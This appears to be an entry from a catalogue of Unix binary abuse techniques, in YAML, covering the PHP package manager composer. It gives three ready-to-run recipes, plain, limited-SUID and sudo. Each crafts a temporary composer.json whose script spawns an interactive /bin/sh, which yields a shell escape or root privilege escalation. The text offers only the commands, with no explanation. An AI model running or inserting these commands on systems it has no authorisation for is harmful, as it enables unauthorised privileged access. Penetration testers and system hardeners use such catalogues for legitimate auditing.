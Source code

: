 functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        composer --working-dir=$TF run-script x
  limited-suid:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        ./composer --working-dir=$TF run-script x
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        sudo composer --working-dir=$TF run-script x
---
